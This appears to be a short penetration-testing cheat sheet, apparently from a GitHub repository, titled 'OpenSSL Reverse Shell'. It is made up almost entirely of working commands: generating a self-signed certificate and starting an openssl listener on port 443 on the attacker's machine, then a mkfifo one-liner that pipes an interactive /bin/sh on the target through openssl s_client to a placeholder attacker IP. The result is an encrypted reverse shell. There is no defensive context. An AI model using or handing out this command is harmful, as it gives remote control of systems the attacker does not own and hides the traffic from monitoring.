 # OpenSSL Reverse Shell

Generate an SSL certificate key pair for ou listenner on the attacker machine

```sh
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start up our lister 

```sh
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
```

**On target systeme**

```sh
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:443 > /tmp/x; rm /tmp/x
```

